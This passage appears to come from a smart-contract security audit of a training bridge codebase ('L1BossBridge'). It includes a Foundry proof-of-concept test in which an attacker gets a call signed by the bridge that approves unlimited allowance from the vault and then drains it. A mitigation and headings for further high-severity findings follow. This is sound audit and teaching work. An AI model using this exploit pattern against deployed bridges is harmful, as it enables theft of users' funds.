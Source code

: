 It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.



### [H-5] `CREATE` opcode does not work on zksync era

### [H-6] `L1BossBridge::depositTokensToL2`'s `DEPOSIT_LIMIT` check allows contract to be DoS'd
*Not shown in video*

### [H-7] The `L1BossBridge::withdrawTokensToL1` function has no validation on the withdrawal amount being the same as the deposited amount in `L1BossBridge::depositTokensToL2`, allowing attacker to withdraw more funds than deposited 
*Not shown in video*

### [H-8] `TokenFactory::deployToken` locks tokens forever 
*Not shown in video*
